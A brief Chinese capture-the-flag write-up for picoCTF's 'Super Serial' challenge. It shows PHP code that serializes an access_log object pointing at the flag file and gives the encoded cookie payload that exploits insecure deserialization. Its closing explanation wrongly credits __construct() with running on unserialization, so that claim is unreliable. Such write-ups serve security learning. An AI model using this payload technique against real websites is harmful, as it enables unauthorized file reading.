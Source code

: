# Super Serial 15
>Try to recover the flag stored on this website http://mercury.picoctf.net:42449/

# Explore 
题目名字提示是反序列化，HuaHuaY学长在群里说关键类是access_log，构造读flag的类
```php
<?php
class access_log{
	public $log_file;
	function __construct() {
		$this->log_file = "../flag";
	}
	function __toString() {
		return $this->read_log();
	}
	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}
	function read_log() {
		return file_get_contents($this->log_file);
	}
}

$permissions =new access_log();
echo urlencode(base64_encode(serialize($permissions)));
```
将cookie的login设置为**urlencode(base64_encode(serialize($permissions)))**输出的
>TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9

在反序列化cookies的login时就会执行**__construct()**，读出flag